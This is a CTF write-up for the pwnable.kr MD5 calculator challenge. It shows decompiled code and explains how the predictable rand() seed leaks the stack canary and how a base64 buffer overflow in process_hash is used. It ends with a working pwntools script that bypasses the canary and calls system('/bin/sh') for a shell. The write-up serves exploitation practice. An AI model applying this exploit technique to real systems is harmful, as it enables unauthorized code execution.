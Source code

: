 # Pwnable.kr MD5 calculator CTF Writeup

## Problem Description

The code of the program is:

### my_hash

```c
08048ed8  int32_t my_hash()

08048edf      void* gsbase
08048edf      int32_t eax = *(gsbase + 0x14)
08048eed      void var_30
08048eed      void* var_38 = &var_30
08048eed      
08048f1a      for (int32_t i = 0; i s<= 7; i += 1)
08048f10          *((i << 2) + var_38) = rand()
08048f10      
08048f75      int32_t result = *(var_38 + 0x14) + *(var_38 + 4) + *(var_38 + 8) - *(var_38 + 0xc) + *(var_38 + 0x20) + *(var_38 + 0x1c) + *(var_38 + 0x10) - *(var_38 + 0x18)
08048f75      
08048f85      if (eax == *(gsbase + 0x14))
08048f91          return result
08048f91      
08048f87      __stack_chk_fail()
08048f87      noreturn
```

### process_hash

```c
08048f92  int32_t process_hash()

08048f9d      void* gsbase
08048f9d      int32_t eax = *(gsbase + 0x14)
08048fbe      void s
08048fbe      __builtin_memset(&s, c: 0, n: 0x200)
08048fc9      int32_t i
08048fc9      
08048fc9      do
08048fc1          i = getchar()
08048fc9      while (i != 0xa)
08048fde      __builtin_memset(s: 0x804b0e0, c: 0, n: 0x400)
08048ff8      fgets(buf: &_0x804b0e0, n: 0x400, fp: stdin)
08049013      __builtin_memset(&s, c: 0, n: 0x200)
08049044      int32_t eax_3 = calc_md5(&s, Base64Decode(0x804b0e0, &s))
08049061      printf(format: "MD5(data) : %s\n", eax_3)
0804906f      free(mem: eax_3)
08049077      int32_t result = eax ^ *(gsbase + 0x14)
08049077      
0804907e      if (result == 0)
0804908e          return result
0804908e      
08049080      __stack_chk_fail()
08049080      noreturn
```

### main

```c
0804908f  int32_t main(int32_t argc, char** argv, char** envp)

080490b8      setvbuf(fp: stdout, buf: nullptr, mode: 1, size: 0)
080490dd      setvbuf(fp: stdin, buf: nullptr, mode: 1, size: 0)
080490e9      puts(str: "- Welcome to the free MD5 calcul…")
080490fd      srand(x: time(nullptr))
08049102      int32_t eax_1 = my_hash()
0804911b      printf(format: "Are you human? input captcha : %…", eax_1)
08049130      int32_t var_18
08049130      __isoc99_scanf(format: &data_80492df, &var_18)
08049130      
0804913d      if (eax_1 != var_18)
08049146          puts(str: "wrong captcha!")
08049152          exit(status: 0)
08049152          noreturn
08049152      
0804915e      puts(str: "Welcome! you are authenticated.")
0804916a      puts(str: "Encode your data with BASE64 the…")
0804916f      process_hash()
0804917b      puts(str: "Thank you for using our service.")
08049187      system(line: "echo `date` >> log")
08049192      return 0
```

## Analysis

The program first using `srand` function to decleare a seed for the random function. the seed is the current time. This means that if we know the eaxct time the program ran, we can know all the random values in the program. after that the program calls `my_hash` function which genreate hash. It does that by creating an array of length 8 that countain random values (that we can predict). Than it calculate the hash like this: `result = vals[5] + vals[1] + vals[2] - vals[3] + vals[7] + vals[4] - vals[6] + var[8]`. As we can see, there is buffer overflow here, because `var[8]` is outside the array. So the hash countain some 4 byte value on the stack, which we can calculate and find. To find whats that value, we need to look in the disasmbley. In there we can see that the canary is set in these lines:
```asm
.text:08048EDF                 mov     eax, large gs:14h
.text:08048EE5                 mov     [ebp-0xc], eax
```
so the canary is located in `[ebp-0xc]`.
In addition we can see from your disassembly:
```asm
mov [ebp-0xc], eax
lea eax, [ebp-0x2c]
mov [ebp-0x34], eax
```
So the array starts at `[ebp-0x2c]` which is `[ebp-44]` and its size is 8 so its total size is 32 bytes, which means the `arr[8]` is in address `[ebp-12]` (44-32=12) which in hex is `[ebp-0xc]`, and thats where the canary is saved.
So the hash is equal to `vals[5] + vals[1] + vals[2] - vals[3] + vals[7] + vals[4] - vals[6] + canary`, and since we know all the radom values, we can calculate the canary. All we need to do is to run the exploit code locally (so time() will return the same number), create an array of 8 random numbers and calculating the hash without the canary. Than we need to take the hash the program gave us and subtruct from it the hash we calculated, and than we will get the canary.

The second part of the exploit is on the `process_hash()` function. In this function, there is another buffer overflow bug: there is on the stack an array of length `0x200` bytes (512 bytes), but the program lets us write `0x400` (1024 bytes) to it. However, because there is stack protection (canary), we cant overwrite the stack. Fourntly, we already know the canary, so we simpliy need to overwrite the stack with what we want and write the canary we found in its original place. This way we can overwrite whatever we want on the stack (encoded with base 64).
So we can use this vunrability to do ROP by overwriting the return address so it will return to the address `0x8049187` (which is `call system`) instead of the address of `main`. After that we need to change its arugment on the stack so it will be an address to the string `/bin/sh\0`. However, this string doesnt exsist in the program, so we need to write it in the buffer and calculate the address of where we wrote it to. In conculostion, the payload should look like this: `base64_encode(A * 512 + canary + [address of 'call system'] + [adress of "\bin\sh"]) + "/bin/sh\0"` (note the `"/bin/sh\0"` should not be encoded to base 64 because we use the address thats in the `.bss` section and our input is the same there).


## Exploit Code

```python
from pwn import *
import ctypes
import time

context.log_level = 'info'

libc = ctypes.CDLL("libc.so.6")
libc.srand.argtypes = (ctypes.c_uint,)
libc.rand.restype = ctypes.c_int

seed = int(time.time())
libc.srand(seed)

vals = [libc.rand() for _ in range(8)]

result = vals[5] + vals[1] + vals[2] - vals[3] + vals[7] + vals[4] - vals[6]
print("result:", result)

p = remote('localhost', 9002)

p.recvuntil(b'captcha : ')
captcha = int(p.recv().decode())
p.sendline(str(captcha))
print("captcha:", captcha)

canary = captcha - result
canary = canary & 0xffffffff
canary = p32(canary)
print("canary:", canary)

call_system_addr = p32(0x8049187)
print("call system address:", call_system_addr)

binsh_addr = p32(0x804B3AC)
print("/bin/sh address:", binsh_addr)

payload = b'A' * 512 + canary + b'A' * 12 + call_system_addr + binsh_addr
payload = b64e(payload).encode() + b'/bin/sh\0'

p.recvuntil(b'Encode your data with BASE64 then paste me!\n')
p.sendline(payload)
p.interactive()
```


